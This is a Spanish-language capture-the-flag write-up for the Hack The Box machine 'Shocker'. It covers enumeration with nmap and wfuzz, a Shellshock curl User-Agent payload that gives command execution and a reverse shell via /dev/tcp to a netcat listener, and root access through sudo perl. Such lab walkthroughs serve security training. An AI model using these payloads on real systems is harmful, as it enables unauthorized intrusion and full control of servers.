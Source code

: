 ```yaml
---
layout: single
title: Hack the box-Shocker 
excerpt: "Maquina Shocker hack the box"
date: 2021-08-26
classes: wide
header:
  teaser: /assets/images/shocker/shocker.jpg
  teaser_home_page: true
categories:
  -HTB -CTF
tags:  
  - HTB
  - enumeration
  - explotacion
---
```


Esta es una resolucion completa de la maquina shocker de hack the box una maquina linux de 64 bits.
### Nivel de dificultad:

Intrusion = facil.

Escala de privilegios = facil. 
## Reconocimiento general de la maquina 
### Reconocimiento de puertos
Realizamos el escaneo con nmap 
```
nmap -p- --open -n -T5 -v 10.10.10.56
```
### Salida de nmap: 
<p align="left">
<img src="/assets/images/shocker/salida-shocker.png">
</p>

## Vemos que tiene un servidor http por el puerto 80 al entrar a esa pagina web vemos la suigente imagen:
<p align="left">
<img src="/assets/images/shocker/web-shocker.png">
</p>

### El codigo fuente muestra esto:
<p align="left">
<img src="/assets/images/shocker/codigofuente-shocker.png">
</p>
### Wappalyzer:
<p align="left">
<img src="/assets/images/shocker/wapalyzer.png">
</p>
### Uso de wfuzz en busca de rutas potenciales:
```
wfuzz -c -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/FUZZ
```
Ocupe el diccionario /usr/share/dirb/wordlists/common.txt de dirbuster pero otros diccionarios pueden dar los mismos resultados
### Salida de wfuzz:
<p align="left">
<img src="/assets/images/shocker/wfuzz.png">
</p>
Podemos ver un directorio cgi-bin/

### cgi-bin/
Esta carpeta se usa principalmente para guardar archivos con la extension cgi pero no es una obligacion que tengan esta extension para ser guardados aqui
### Archivos .cgi 
Estos archivos son utilizados principalmente para realizar tareas que no son soportadas por el estandar html 

Ej:

Base de datos

Contadores 

### Uso de wfuzz para encontrar archivos con diferentes extensiones:
Creamos un diccionario con extensiones variadas para luego usarlo

extensiones.txt
```
html 
php
pl
cgi 
txt
sh 
```
Uso de wfuzz con dos diccionarios 
```
wfuzz -c --hc=440 -t 500 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensiones.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```
Encontramos un archivo user-sh
<p align="left">
<img src="/assets/images/shocker/user-sh.png">
</p>
Entramos al recurso /cgi-bin/user.sh
<p align="left">
<img src="/assets/images/shocker/recurso.png">
</p>

## Intrusion a la maquina 
Para ganar acceso a la maquina realizaremos un ataque ShellShock 
en esta mapa en especifico habra que probar hacer un aislamiento de comandos con echo;
### Ganamos ejecucion remota de comandos
```
curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
```
### Ganamos una shell 
Nos ponemos en escucha con netcat 
```
nc -nlvp 443
```
Ahora ganamos la shell
```
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -l >& /dev/tcp/(nuestra ip)/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
Hacemos un tratamiento de la TTY (Tengo un articulo explicando como hacer un tratamiento de la  TTY)

Realizado el tratamiento de la  TTY tendriamos acceso a la maquina con el usuario shelly y tendriamos acceso a la flag del usuario.
## Escala de privilegios 
Con el comando 
```
sudo -l
```
podemos ver que el usuario root permite ejecutar el comando perl sin necesidad de contraseña
esta pagina nos muestra algunos comandos para escalar privilegios segun los comandos que se nos permita ejecutar
https://gtfobins.github.io/

Podemos ver que podemos ejecutar un comando perl para poder escalar privilegios
```
sudo perl -e 'exec "/bin/sh";'
```
